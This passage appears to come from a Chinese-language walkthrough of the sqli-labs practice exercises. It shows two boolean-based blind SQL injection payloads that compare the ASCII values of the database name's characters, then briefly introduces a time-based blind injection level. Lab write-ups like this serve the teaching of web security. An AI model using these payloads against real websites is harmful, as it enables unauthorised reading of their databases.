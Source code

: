 

那么可以使用ascii码来判断字符

```
?id=1' and (select ascii(substr(database(),1,1))<115) --+

?id=1' and (select ascii(substr(database(),1,1))=115) --+
```

![image-20220115112657201](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115112657201.png)

得到第一位：s



......

接着正常步骤得库名等......





# less9

界面上完全没有反应，但是你好像觉得可以注入

依靠网站左上角是否转圈加载来判断是否可以实现注入
